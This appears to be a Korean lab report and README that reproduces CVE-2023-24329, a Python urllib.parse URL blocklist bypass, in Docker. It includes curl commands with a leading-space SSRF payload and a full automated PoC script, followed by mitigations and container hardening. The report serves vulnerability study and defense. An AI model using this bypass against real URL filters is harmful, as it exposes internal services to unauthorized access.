






# CVE-2023-24329: Python urllib.parse URL Blocklist Bypass

## Contributors

- 이성민 ([@happypite](https://github.com/happypite))

---

## 1. 개요

본 과제에서는 Python의 URL 파싱 과정에서 발생하는
CVE-2023-24329 취약점을 Docker 환경으로 재현하였다.

CVE-2023-24329는 URL 앞부분에 공백이나 일부 제어문자가 포함된
경우, `urllib.parse`가 URL을 예상과 다르게 분석하여 URL 기반
차단 로직이 우회될 수 있는 취약점이다.

본 실습에서는 동일한 애플리케이션 코드를 다음 두 Python
환경에서 각각 실행하여 버전별 처리 결과를 비교하였다.

- 취약 환경: Python 3.11.3
- 패치 환경: Python 3.11.4

Python 3.11.3에서는 앞쪽 공백이 포함된 URL의 `hostname`이
`None`으로 처리되었다. 이로 인해 내부 주소를 대상으로 하는
차단 조건을 통과하고, Docker 내부 네트워크에 구성된 서비스의
응답을 가져올 수 있었다.

반면 Python 3.11.4에서는 URL 앞쪽의 공백을 제거한 후 URL을
분석하였다. 따라서 `internal`을 hostname으로 정상적으로
인식하였으며, 동일한 요청이 차단되는 것을 확인하였다.

본 환경은 취약점의 동작 원리를 확인하기 위한 로컬 Docker
실습 환경으로 구성하였다.

---

## 2. 취약점 정보

| 항목 | 내용 |
|---|---|
| CVE | CVE-2023-24329 |
| 대상 | Python `urllib.parse` |
| 취약점 유형 | URL Blocklist Bypass |
| CWE | CWE-20: Improper Input Validation |
| 취약 환경 | Python 3.11.3 |
| 패치 비교 환경 | Python 3.11.4 |
| CVSS v3.1 | 7.5 High |
| CVSS Vector | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N` |
| 실습에서 확인한 영향 | 내부 서비스 접근 및 응답 노출 |

---

## 3. 취약점 동작 원리

실습용 애플리케이션은 사용자가 전달한 URL을 `urlsplit()`으로
분석한 후, hostname이 `internal`인 경우 요청을 차단하도록
구성하였다.

공백이 포함되지 않은 일반적인 URL은 다음과 같이 분석된다.

```text
입력:
http://internal:9000/secret

분석 결과:
scheme   = "http"
hostname = "internal"
path     = "/secret"
```

hostname이 `internal`로 확인되므로 차단 조건에 해당하며,
요청은 거부된다.

Python 3.11.3 환경에서 URL 앞에 공백을 추가하면 다음과 같이
분석된다.

```text
입력:
 http://internal:9000/secret

분석 결과:
scheme   = ""
hostname = None
path     = " http://internal:9000/secret"
```

애플리케이션은 `hostname` 값을 기준으로 차단 여부를 판단하므로,
`None`으로 처리된 입력은 내부 주소 차단 조건에 해당하지 않는다.

이후 실제 네트워크 요청 단계에서는 해당 문자열이 내부 서비스
주소로 처리되어 요청이 전달된다. URL을 검사하는 단계와 실제
요청을 수행하는 단계에서 문자열이 다르게 해석되는 것이
취약점의 핵심 원인이다.

Python 3.11.4에서는 URL 앞쪽의 공백을 제거한 후 분석하며,
결과는 다음과 같다.

```text
scheme   = "http"
hostname = "internal"
path     = "/secret"
```

따라서 동일한 입력이라도 내부 주소로 정상 인식되며, 차단 조건에
의해 요청이 거부된다.

---

## 4. 발생 조건

CVE-2023-24329가 실제 보안 문제로 이어지기 위해서는 다음 조건이
함께 충족되어야 한다.

- 취약한 Python 버전을 사용한다.
- 애플리케이션이 사용자로부터 URL을 입력받는다.
- 입력된 URL을 `urllib.parse.urlsplit()` 등의 함수로 분석한다.
- 분석 결과의 hostname을 기준으로 내부 주소를 차단한다.
- 사용자가 URL 앞에 공백이나 제어문자를 삽입할 수 있다.
- 검사를 통과한 URL을 사용하여 실제 네트워크 요청을 수행한다.
- 애플리케이션이 내부 네트워크에 접근할 수 있다.

단순히 취약한 Python 버전을 사용하는 것만으로 취약점이 발생하는
것은 아니다. 사용자 입력 URL을 검사한 후 실제 네트워크 요청에
사용하는 기능이 함께 존재해야 한다.

본 실습에서는 위 조건을 구성하기 위해 호스트에 직접 공개되지
않는 `internal` 서비스를 별도로 구성하였다.

---

## 5. 실습 환경

### 5.1 서비스 구성

| 서비스 | 역할 | Python 버전 | 호스트 포트 |
|---|---|---:|---:|
| `internal` | 내부 전용 데이터 제공 | 3.11.4 | 공개하지 않음 |
| `vulnerable` | 취약 환경 | 3.11.3 | 8000 |
| `patched` | 패치 환경 | 3.11.4 | 8001 |
| `poc` | 재현 결과 자동 검증 | 3.11.4 | 없음 |

파싱 결과만 비교하는 방식으로는 실제 영향 범위를 확인하기
어렵기 때문에 Docker 내부 네트워크에서만 접근 가능한
`internal` 서비스를 추가하였다.

취약점 재현에 성공하면 `internal` 서비스가 반환하는
`WHS_INTERNAL_SECRET` 값이 취약 서비스의 응답에 포함된다.

```text
호스트
 ├── 127.0.0.1:8000
 │       └── vulnerable
 │               └── internal:9000/secret
 │
 └── 127.0.0.1:8001
         └── patched
                 └── internal:9000/secret

poc
 ├── vulnerable:8000
 └── patched:8000
```

`internal` 서비스는 호스트 포트에 연결하지 않았으므로,
호스트에서 `127.0.0.1:9000`을 통해 직접 접근할 수 없다.

### 5.2 디렉터리 구조

```text
CVE-2023-24329/
├── README.md
├── docker-compose.yml
├── .gitattributes
├── .gitignore
├── internal/
│   ├── app.py
│   ├── Dockerfile
│   └── .dockerignore
├── target/
│   ├── app.py
│   ├── Dockerfile
│   └── .dockerignore
├── poc/
│   ├── poc.py
│   ├── Dockerfile
│   └── .dockerignore
└── README.assets/
    ├── 01-compose-build-complete.png
    ├── 02-python-versions.png
    ├── 03-normal-url-blocked.png
    ├── 04-vulnerable-bypass.png
    ├── 05-patched-block.png
    └── 06-automatic-poc.png
```

### 5.3 요구 환경

- Docker Engine 또는 Docker Desktop
- Docker Compose v2
- Git
- 공식 Python 베이스 이미지를 내려받기 위한 인터넷 연결

호스트 환경에는 별도의 Python 패키지를 설치할 필요가 없다.

---

## 6. 실행 방법

저장소 최상위 디렉터리를 기준으로 다음 명령을 실행하여 실습
디렉터리로 이동한다.

```bash
cd Python/CVE-2023-24329
```

이후 다음 명령으로 Docker 이미지 빌드, 내부 서비스 실행,
취약·패치 환경 구성 및 자동 PoC 검증을 일괄적으로 수행한다.

```bash
docker compose up \
  --build \
  --abort-on-container-exit \
  --exit-code-from poc
```

각 옵션의 역할은 다음과 같다.

- `--build`: 컨테이너 실행 전에 이미지를 빌드한다.
- `--abort-on-container-exit`: PoC 컨테이너가 종료되면 다른 서비스도 함께 중지한다.
- `--exit-code-from poc`: 전체 명령의 종료 코드를 `poc` 컨테이너의 종료 코드로 설정한다.

정상적으로 재현된 경우 출력에서 다음 내용을 확인할 수 있다.

```text
[PASS] vulnerable service is healthy
[PASS] patched service is healthy
[INFO] vulnerable Python: 3.11.3
[INFO] patched Python:    3.11.4
[PASS] normal internal URL was blocked by both services
[VULNERABLE] blocklist bypass succeeded
[LEAKED] WHS_INTERNAL_SECRET
[PATCHED] same payload was blocked
[PASS] CVE-2023-24329 reproduction completed
```

PoC 실행이 끝난 직후 다음 명령으로 종료 코드를 확인한다.

```bash
echo $?
```

모든 검증이 성공한 경우 다음과 같이 `0`이 출력된다.

```text
0
```

종료 코드가 `0`이 아닌 경우 PoC 검증 항목 중 하나 이상이
실패한 것으로 판단할 수 있다.

실습이 끝난 후에는 다음 명령으로 컨테이너, 네트워크 및 볼륨을
정리한다.

```bash
docker compose down \
  -v \
  --remove-orphans
```

환경을 백그라운드에서 실행한 후 수동으로 재현하려는 경우에는
다음 명령을 사용한다.

```bash
docker compose up \
  -d \
  --build \
  internal \
  vulnerable \
  patched
```

---

## 7. 환경 구축 및 버전 확인

다음 명령으로 내부 서비스와 취약·패치 환경을 실행하였다.

```bash
docker compose up \
  -d \
  --build \
  internal \
  vulnerable \
  patched
```



두 환경에서 실제로 사용되는 Python 버전을 확인하였다.

```bash
docker compose exec vulnerable python --version
docker compose exec patched python --version
```

실행 결과는 다음과 같다.

```text
Vulnerable Service: Python 3.11.3
Patched Service:    Python 3.11.4
```



두 컨테이너는 동일한 `target/app.py`를 사용하며, Python 버전만
다르게 구성하였다. 따라서 이후 발생하는 결과 차이는
애플리케이션 코드의 차이가 아니라 Python 버전별 URL 처리 방식의
차이로 판단할 수 있다.

---

## 8. 정상 URL 차단 확인

취약점 재현에 앞서 공백이 포함되지 않은 일반적인 내부 URL이
정상적으로 차단되는지 확인하였다.

```bash
curl -sS -i -G \
  --data-urlencode "url=http://internal:9000/secret" \
  http://127.0.0.1:8000/fetch
```

응답 결과는 `403 Forbidden`이었으며, 주요 파싱 결과는 다음과
같다.

```text
result          = blocked
parsed_scheme   = http
parsed_hostname = internal
parsed_path     = /secret
```



공백이 포함되지 않은 일반 URL이 정상적으로 차단되는 것을 먼저
검증하였다. 이를 통해 이후 확인되는 결과가 차단 기능의 부재가
아니라 특정 입력 형식에 의한 우회임을 구분하였다.

---

## 9. 취약 버전 재현

Python 3.11.3 환경에 URL 앞쪽 공백을 포함한 입력을 전달하였다.

```bash
curl -sS -i -G \
  --data-urlencode "url= http://internal:9000/secret" \
  http://127.0.0.1:8000/fetch
```

실행 결과는 다음과 같다.

- HTTP 상태: `200 OK`
- `parsed_scheme`: 빈 문자열
- `parsed_hostname`: `null`
- `parsed_path`: 앞쪽 공백이 포함된 전체 URL
- `WHS_INTERNAL_SECRET` 값 반환



응답의 `target_repr`에서는 URL 앞의 공백이 유지된 것을 확인할
수 있다. 보안 검사 단계에서는 hostname이 `null`로 처리되어
blocklist 검사를 통과하였다.

이후 실제 요청 단계에서는 Docker 내부의
`internal:9000` 서비스에 접근하였으며, 응답 본문에
`WHS_INTERNAL_SECRET` 값이 포함되었다.

이를 통해 URL 분석 단계와 실제 요청 단계의 처리 차이로 인해
내부 주소 차단 로직이 우회되는 것을 확인하였다.

---

## 10. 패치 버전 비교

취약 환경에서 사용한 것과 동일한 입력을 Python 3.11.4 환경에
전달하였다.

```bash
curl -sS -i -G \
  --data-urlencode "url= http://internal:9000/secret" \
  http://127.0.0.1:8001/fetch
```

패치 환경의 실행 결과는 다음과 같다.

- HTTP 상태: `403 Forbidden`
- `parsed_scheme`: `http`
- `parsed_hostname`: `internal`
- `parsed_path`: `/secret`
- 내부 데이터 노출 없음



Python 3.11.4에서는 URL 앞쪽의 공백이 제거되었으며,
hostname이 `internal`로 정상 인식되었다. 이에 따라 동일한
입력이 내부 주소 차단 조건에 해당하여 요청이 거부되었다.

동일한 애플리케이션 코드와 동일한 입력을 사용한 상태에서
Python 버전에 따라 서로 다른 결과가 발생하는 것을 확인하였다.

---

## 11. 자동 PoC

수동 검증 과정과 동일한 검사를 자동으로 수행하기 위해
`poc/poc.py`를 작성하였다.

전체 코드는 [`poc/poc.py`](./poc/poc.py)에서 별도로 확인할 수
있으며, 보고서의 재현성을 높이기 위해 실제 사용된 전체 코드도
아래에 포함하였다.

PoC에서는 다음 항목을 순서대로 검증한다.

1. 취약 서비스와 패치 서비스의 실행 상태
2. 각 서비스의 Python 버전
3. 일반 내부 URL의 차단 여부
4. 취약 환경에서 공백 입력을 통한 우회 여부
5. `WHS_INTERNAL_SECRET` 반환 여부
6. 패치 환경에서 동일 입력의 차단 여부
7. 모든 검증 성공 시 종료 코드 `0` 반환
8. 검증 실패 시 종료 코드 `1` 반환

PoC만 별도로 다시 실행하려면 다음 명령을 사용한다.

```bash
docker compose run --rm poc
```



모든 검증이 완료되면 다음 메시지가 출력된다.

```text
[PASS] CVE-2023-24329 reproduction completed
```

### 11.1 PoC 코드

다음 코드는 취약 환경과 패치 환경에 동일한 입력을 전달한 후,
정상 차단, 우회 성공, 내부 데이터 노출 및 패치 여부를 자동으로
검증한다.

```python
import json
import sys
import time
from urllib.error import HTTPError, URLError
from urllib.parse import urlencode
from urllib.request import ProxyHandler, build_opener

VULNERABLE_BASE = "http://vulnerable:8000"
PATCHED_BASE = "http://patched:8000"

NORMAL_INTERNAL_URL = "http://internal:9000/secret"
BYPASS_PAYLOAD = " http://internal:9000/secret"


def request_json(url: str) -> tuple[int, dict]:
    """HTTP 요청 결과를 상태 코드와 JSON 객체로 반환한다."""
    opener = build_opener(ProxyHandler({}))

    try:
        with opener.open(url, timeout=5) as response:
            status = response.status
            body = response.read().decode("utf-8")

    except HTTPError as error:
        status = error.code
        body = error.read().decode("utf-8")

    return status, json.loads(body)


def wait_for_service(
    base_url: str,
    service_name: str,
    attempts: int = 30,
) -> None:
    """서비스가 준비될 때까지 최대 30초 동안 확인한다."""
    for _ in range(attempts):
        try:
            status, data = request_json(f"{base_url}/health")

            if status == 200 and data.get("status") == "ok":
                print(
                    f"[PASS] {service_name} service is healthy",
                    flush=True,
                )
                return

        except (
            URLError,
            TimeoutError,
            OSError,
            json.JSONDecodeError,
        ):
            pass

        time.sleep(1)

    raise RuntimeError(
        f"{service_name} service did not become ready"
    )


def fetch(
    base_url: str,
    target_url: str,
) -> tuple[int, dict]:
    query = urlencode({"url": target_url})
    return request_json(f"{base_url}/fetch?{query}")


def require(
    condition: bool,
    failure_message: str,
) -> None:
    if not condition:
        raise AssertionError(failure_message)


def main() -> int:
    print("=" * 64)
    print("CVE-2023-24329 reproducibility test")
    print("=" * 64)

    wait_for_service(VULNERABLE_BASE, "vulnerable")
    wait_for_service(PATCHED_BASE, "patched")

    _, vulnerable_info = request_json(
        f"{VULNERABLE_BASE}/info"
    )
    _, patched_info = request_json(
        f"{PATCHED_BASE}/info"
    )

    print(
        "[INFO] vulnerable Python: "
        f"{vulnerable_info['python_version']}"
    )
    print(
        "[INFO] patched Python:    "
        f"{patched_info['python_version']}"
    )

    require(
        vulnerable_info["python_version"] == "3.11.3",
        "Vulnerable service is not using Python 3.11.3",
    )
    require(
        patched_info["python_version"] == "3.11.4",
        "Patched service is not using Python 3.11.4",
    )

    # 정상 내부 URL은 두 환경에서 모두 차단되어야 한다.
    vulnerable_normal_status, vulnerable_normal_data = fetch(
        VULNERABLE_BASE,
        NORMAL_INTERNAL_URL,
    )
    patched_normal_status, patched_normal_data = fetch(
        PATCHED_BASE,
        NORMAL_INTERNAL_URL,
    )

    require(
        vulnerable_normal_status == 403
        and vulnerable_normal_data.get("result") == "blocked",
        "Normal internal URL was not blocked by vulnerable service",
    )
    require(
        patched_normal_status == 403
        and patched_normal_data.get("result") == "blocked",
        "Normal internal URL was not blocked by patched service",
    )

    print(
        "[PASS] normal internal URL was blocked "
        "by both services"
    )

    # 취약 환경에서 앞쪽 공백을 이용한 우회를 확인한다.
    vulnerable_status, vulnerable_data = fetch(
        VULNERABLE_BASE,
        BYPASS_PAYLOAD,
    )

    require(
        vulnerable_status == 200,
        "Bypass did not succeed on Python 3.11.3",
    )
    require(
        vulnerable_data.get("result") == "success",
        "Unexpected vulnerable service result",
    )
    require(
        vulnerable_data.get("parsed_scheme") == "",
        "Vulnerable parser unexpectedly detected the scheme",
    )
    require(
        vulnerable_data.get("parsed_hostname") is None,
        "Vulnerable parser unexpectedly detected the hostname",
    )
    require(
        "WHS_INTERNAL_SECRET"
        in vulnerable_data.get("response_body", ""),
        "Internal secret was not returned",
    )

    print("[VULNERABLE] blocklist bypass succeeded")
    print(
        "[INFO] parsed scheme:   "
        f"{vulnerable_data.get('parsed_scheme')!r}"
    )
    print(
        "[INFO] parsed hostname: "
        f"{vulnerable_data.get('parsed_hostname')!r}"
    )
    print("[LEAKED] WHS_INTERNAL_SECRET")

    # 패치 환경에서 동일 payload가 차단되는지 확인한다.
    patched_status, patched_data = fetch(
        PATCHED_BASE,
        BYPASS_PAYLOAD,
    )

    require(
        patched_status == 403,
        "Payload was not blocked on Python 3.11.4",
    )
    require(
        patched_data.get("result") == "blocked",
        "Unexpected patched service result",
    )
    require(
        patched_data.get("parsed_scheme") == "http",
        "Patched parser did not detect the scheme",
    )
    require(
        patched_data.get("parsed_hostname") == "internal",
        "Patched parser did not detect the hostname",
    )

    print("[PATCHED] same payload was blocked")
    print(
        "[INFO] parsed scheme:   "
        f"{patched_data.get('parsed_scheme')!r}"
    )
    print(
        "[INFO] parsed hostname: "
        f"{patched_data.get('parsed_hostname')!r}"
    )
    print(
        "[PASS] CVE-2023-24329 reproduction completed"
    )

    return 0


if __name__ == "__main__":
    try:
        raise SystemExit(main())

    except Exception as error:
        print(
            f"[FAIL] {error}",
            file=sys.stderr,
            flush=True,
        )
        raise SystemExit(1)

```

---

## 12. 결과 정리

| 검증 항목 | Python 3.11.3 | Python 3.11.4 |
|---|---|---|
| 일반 내부 URL | 차단 | 차단 |
| 앞쪽 공백 포함 URL | 우회 성공 | 차단 |
| 파싱된 scheme | 빈 문자열 | `http` |
| 파싱된 hostname | `None` | `internal` |
| 내부 비밀값 노출 | 발생 | 발생하지 않음 |
| HTTP 상태 | 200 | 403 |

공백이 포함되지 않은 URL은 두 환경에서 모두 차단되었다.

URL 앞쪽에 공백이 포함된 경우 Python 3.11.3에서는 hostname을
정상적으로 인식하지 못하여 내부 서비스에 접근하였다. 반면
Python 3.11.4에서는 hostname을 정상적으로 확인하여 요청을
차단하였다.

동일한 애플리케이션 코드에서 Python 버전만 다르게 적용하였기
때문에, 해당 결과 차이는 `urllib.parse`의 URL 파싱 방식 변경에
따른 것으로 판단하였다.

---

## 13. Risk Score

**NVD CVSS v3.1 Base Score: 7.5 (High)**

**CVSS Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N`

NVD에서 제공하는 CVSS v3.1 평가와 본 실습에서 확인한 결과를
기준으로 위험도를 7.5로 정리하였다.

공격자는 URL 앞쪽에 공백을 추가하는 비교적 단순한 방식으로
hostname 기반 차단 로직을 우회할 수 있다. 별도의 사용자
상호작용 없이 서버가 내부 주소로 직접 요청을 수행할 수 있다는
점에서 위험도가 높은 것으로 판단하였다.

본 실습에서는 외부에 직접 공개되지 않은 Docker 내부 서비스에
접근하고, 해당 서비스의 응답이 취약 서비스의 응답에 포함되는
것을 확인하였다.

다만 실제 영향은 URL 요청 기능의 권한과 애플리케이션이 접근할
수 있는 내부 네트워크 범위에 따라 달라질 수 있다. 원격 코드
실행이나 시스템 권한 획득은 본 환경에서 확인하지 않았으므로
영향 범위에 포함하지 않았다.

---

## 14. Reproducibility

**Reproducibility: 90%**

Docker Compose 명령 하나로 환경 구축과 PoC 실행이 가능하도록
구성하였다.

호스트에 Python 패키지를 별도로 설치할 필요가 없으며,
검증에 사용하는 내부 서비스도 Compose 환경에 포함하였다.
외부 테스트 사이트나 개인 서버에는 의존하지 않는다.

취약 버전과 패치 버전은 각각 Python 3.11.3과 3.11.4로
고정하였으며, 실행에 필요한 애플리케이션 코드, Dockerfile,
PoC 코드 및 결과 이미지도 저장소 내부에 포함하였다.

PoC는 정상 차단, 취약 환경의 우회 성공, 내부 데이터 노출,
패치 환경의 차단을 자동으로 검사하며, 검증 결과에 따라 종료
코드를 반환한다.

최초 실행 시 공식 Python 베이스 이미지를 내려받기 위한 인터넷
연결이 필요하다. 또한 최종 클린 Clone 검증 전이므로 재현성
점수는 100%가 아닌 90%로 평가하였다.

제출 전에는 새 디렉터리에 저장소를 Clone한 후 별도의 파일을
수정하지 않고, README에 작성된 명령만으로 재현되는지 최종
확인한다.

---

## 15. 대응 방안

### 15.1 Python 버전 업데이트

취약한 Python 버전을 보안 패치가 적용된 버전으로 업데이트해야
한다.

본 실습에서도 애플리케이션 코드를 변경하지 않고 Python 버전만
3.11.4로 변경하였을 때 동일한 요청이 차단되는 것을 확인하였다.

### 15.2 URL 입력값 정규화

URL을 검사하기 전에 앞쪽 공백과 제어문자를 제거해야 한다.

보안 검사에 사용한 URL과 실제 네트워크 요청에 사용하는 URL에
동일한 정규화 결과를 적용하여 해석 차이가 발생하지 않도록 해야
한다.

### 15.3 Allowlist 적용

Blocklist 방식만 사용하는 경우 예상하지 못한 입력 형식으로
검사를 우회할 가능성이 있다.

가능한 경우 접근을 허용할 scheme, hostname 및 포트를 명시하는
allowlist 방식을 적용하는 것이 바람직하다.

### 15.4 내부 주소 검증

문자열 기반 hostname 비교만으로는 내부 주소 접근을 완전히
제한하기 어렵다.

DNS 조회 결과를 포함하여 실제 연결 대상이 loopback, 사설 IP,
link-local 주소 또는 클라우드 metadata 주소에 해당하는지
추가로 확인해야 한다.

### 15.5 리디렉션 목적지 재검증

초기 입력 주소가 외부 주소이더라도 HTTP 리디렉션을 통해 내부
주소로 이동할 수 있다.

따라서 리디렉션이 발생한 경우 최종 목적지의 hostname과 IP
주소를 다시 검증해야 한다.

### 15.6 네트워크 접근 권한 제한

애플리케이션의 검증 로직이 우회되더라도 내부 자원에 임의로
접근할 수 없도록 네트워크 접근 권한을 최소화해야 한다.

Docker 네트워크 또는 방화벽 정책을 이용하여 필요한 서비스에만
접근할 수 있도록 구성해야 한다.

---

## 16. 컨테이너 보안 설정

취약점 재현을 위해 Python 3.11.3 환경을 사용하였으나,
재현과 관련되지 않은 불필요한 권한은 부여하지 않았다.

적용한 보안 설정은 다음과 같다.

- non-root 사용자로 컨테이너 실행
- `cap_drop: ALL` 적용
- `no-new-privileges:true` 적용
- 루트 파일시스템 읽기 전용 설정
- `/tmp`만 임시 파일시스템으로 사용
- `privileged` 옵션 미사용
- Docker socket 미마운트
- 내부 서비스 호스트 포트 미공개
- 호스트 절대경로 bind mount 미사용
- 외부 테스트 서버 미사용

취약한 Python 버전을 사용하는 환경에서도 취약점 재현에
필요하지 않은 시스템 권한은 최소화하였다.

---

## 17. 환경 정리

실습 환경은 다음 명령으로 종료한다.

```bash
docker compose down \
  -v \
  --remove-orphans
```

로컬에서 빌드한 이미지까지 함께 삭제할 경우 다음 명령을
사용한다.

```bash
docker compose down \
  -v \
  --rmi local \
  --remove-orphans
```

환경을 정리한 후 관련 컨테이너가 남아 있지 않은지 다음 명령으로
확인할 수 있다.

```bash
docker compose ps -a
```

---

## 18. 참고 자료

- [CVE-2023-24329 CVE Record](https://www.cve.org/CVERecord?id=CVE-2023-24329)
- [NVD CVE-2023-24329](https://nvd.nist.gov/vuln/detail/CVE-2023-24329)
- [Python 3.11 Changelog](https://docs.python.org/3.11/whatsnew/changelog.html)
- [CPython Issue #102153](https://github.com/python/cpython/issues/102153)
- [CPython Pull Request #99421](https://github.com/python/cpython/pull/99421)
